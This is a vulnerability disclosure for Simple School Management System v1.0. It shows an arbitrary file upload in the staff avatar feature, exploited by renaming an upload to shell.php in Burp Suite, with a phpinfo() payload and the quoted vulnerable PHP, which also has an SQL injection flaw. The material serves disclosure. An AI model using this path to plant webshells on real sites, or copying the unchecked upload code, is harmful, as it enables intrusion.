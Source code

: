 # Simple School Management System Staff avatars exist at any File upload

- **Exploit Title:** Simple School Management System Staff avatars exist at any timeFile upload
- **Date:** 2024-04-01
- **Exploit Author:** shuo sheng,jixin zhang
- **Vendor Homepage:** https://code-projects.org/simple-school-management-in-php-with-source-code/
- **Software Link:** https://download.code-projects.org/details/d10e92aa-e37f-46fd-9bf8-45878956d7c0
- **Version:** 1.0

## Description:

The function for employees of Simple School Management System v1.0to upload avatars is not perfect, and the suffix of uploaded files is not strictly verified, resulting in arbitrary file upload vulnerabilities.



## Proof of Concept:

First register a staff account. The default account is used here.

```
name:ram
pass:1234
```

Go to this address:"http://localhost/School/teacher_home.php"

![图片](https://github.com/ss122-0ss/School/assets/131983607/d3cd4972-b65f-44a7-8be4-6043220f318f)


Afterward, click the "Add Profile Details" button, and then interupt and observe the HTTP request in Burp Suite.

payload

```
<?php phpinfo()?>
```

### Manually change the “filename” param to “shell.php”  and in Burp Suite(see picture below).



![图片](https://github.com/ss122-0ss/School/assets/131983607/eb7d2d9e-3804-4a64-875a-88913460abe4)


Send the data packet, accept the return data, and you can see that the modification is successful.

![图片](https://github.com/ss122-0ss/School/assets/131983607/6c6b68e9-b225-4482-9050-904c7dced91a)


By accessing the webshell file from the URL the malicious code is executed.

![图片](https://github.com/ss122-0ss/School/assets/131983607/aef0cf6d-91bf-452c-824d-5ad6ce51aea2)

The code does not perform any verification on the file name, and the code has great security

The code is located in teacher_home.php line 36

```php
<?php
						if(isset($_POST["submit"]))
						{
							$target="staff/";
							$target_file=$target.basename($_FILES["img"]["name"]);
							
							if(move_uploaded_file($_FILES['img']['tmp_name'],$target_file))
							{
								$sql="update staff set PNO='{$_POST["pno"]}',MAIL='{$_POST["mail"]}',PADDR='{$_POST["addr"]}',IMG='{$target_file}'where TID={$_SESSION["TID"]}";
								$db->query($sql);
								echo "<div class='success'>Insert Success</div>";
							}
							
						}
					
					
					?>
					
```


